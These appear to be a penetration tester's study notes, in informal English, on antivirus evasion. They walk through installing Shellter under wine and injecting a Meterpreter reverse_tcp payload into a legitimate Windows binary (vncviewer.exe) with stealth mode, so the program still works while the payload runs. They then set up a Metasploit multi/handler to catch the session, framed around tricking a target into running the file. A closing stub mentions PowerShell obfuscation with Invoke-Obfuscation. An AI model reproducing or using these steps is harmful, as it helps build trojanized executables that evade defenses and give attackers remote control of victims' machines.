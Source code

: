     - ==AV Evasion With Shellter==
        
        - `sudo apt-get install Shellter -y` ⇒ it’s dynamic shellcode injection tool that used in order to injects shellcode into native windows applications ( just 32-bit application ) .
        - `sudo dpkg —add-architecture i386` ⇒ if the Linux VM just support install 64-bit package we need to add this to it to actual let us install the wine 32-bit
        - `sudo apt-get install wine32` ⇒ wine used to let us to run or execute .exe file on linux and MAC .. etc. ( 32-bit , because the Shellter just create a 32-bit program ) .
        - `cd /usr/share/windows-resources/shellter` && `ls -al`
        - `sudo wine shellter.exe` ⇒ here we open a shellter.exe with wine on linux to start to inject payloads
        
        > ==_Here when the social eng comes , so u need to select a small and simplistic file to inject your payload on it , so that will not let the target to detect your payload and SUS your file_==
        
        - `cd /usr/share/windows-binaries` ⇒ here u can find some exe file u can used to inject your payload on it , like VNC Viewer
        - Make a directory called AVbypass ⇒ `mkdir Avbypass` && copy the file u select to inject your payload on it and paste it on this dir
        - `sudo wine shellter.exe` && `A` && `~/Desktop/AVbypass/vncviewer.exe` ⇒ here it ask us to enter the path of actual file we want to inject our payload on it .
        
        > After it finish , it will ask u if u want to enable stealth mode ⇒ Stealth mode used to ⇒ if u want the program to function normal when the target click on it , write `y`
        
        > ==_what that’s mean , when we write y , so when the target click on the file , the file will open as normal and the vnc viewer will open normal and target will do what he want , bun in background our payload execution , so the target will not detect that , because the program will function normal_==
        
        - Now the shellter will list a some payload u can use , u can generate a custom payload with msfvenom and select `c` &&
        - In my case will use `L` ⇒ to use from the list && select index `<number of payload u want>`
        - `set lhost` && `set lport`
        
        > So after finish ⇒ ==`the malicious file will replace the file we copy it ( original file )`== && `the original file will stored on shellter_backup`
        
        - so if u see the ~/Desktop/AV bypass ⇒ u will see the ==`malicious file`== ==,== ==look as the original , and when we transfer to the target system will function as normal and the target can used it as normal , but when he executed *it our payload will execute and the metepreter session will be created to the target system.==
        - `msfconsole` && `use multi/handler` && `set payload windows/metepreter/reverse_tcp` && `set lhost <our ip>` && `set lport` && `run`
        - ==so now when the target execute the file , and he can used it as he want , the file will be normal , but when he executed it , we will receive a metepreter session opened on our multi/handler , and we hacked the target .==
        

  

- ==Obfuscating PowerShell Code==

> _==Obfuscation==_ ⇒ refers to the process of concealing something important ,valuable , or critical . Obfuscation reorganizes code in order to make it harder to analyze or RE .

> search of ==_Invoke-Obfuscation_== Tool on Github
